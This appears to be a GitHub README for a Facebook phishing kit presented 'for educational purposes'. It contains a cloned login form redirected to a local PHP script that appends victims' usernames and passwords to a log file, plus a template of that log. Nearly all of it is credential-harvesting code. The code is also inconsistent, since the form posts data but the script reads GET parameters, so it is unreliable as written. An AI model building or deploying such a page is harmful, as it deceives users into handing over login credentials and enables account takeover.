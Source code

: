 ### Facebook 2022 Phishing Page
#### For educational purposes!

### logs.txt
```
Date and Time: (Date and Time)
Username: (Username/Email)
Password: (Password)
```

### index.html (form)
```html
<form class="_9vtf" 
data-testid="royal_login_form" 
action="./index.php"  <!-- replacing facebook login action to local "index.php" -->
method="post"> <!-- replacing "get" to "post" -->
```

### index.php
```php
$username = $_GET["email"]; // get email index from email/username textbox
$password = $_GET["pass"]; // get pass index from password textbox
$date = date("d-m-y h:i:s"); // get current time and date

file_put_contents("logs.txt", "Date: " . $date . "\n", FILE_APPEND); // logs time and date
file_put_contents("logs.txt", "Username: " . $username . "\n" , FILE_APPEND); // logs victims username/email
file_put_contents("logs.txt", "Password: ". $password . "\n\n", FILE_APPEND); // logs victims password
```
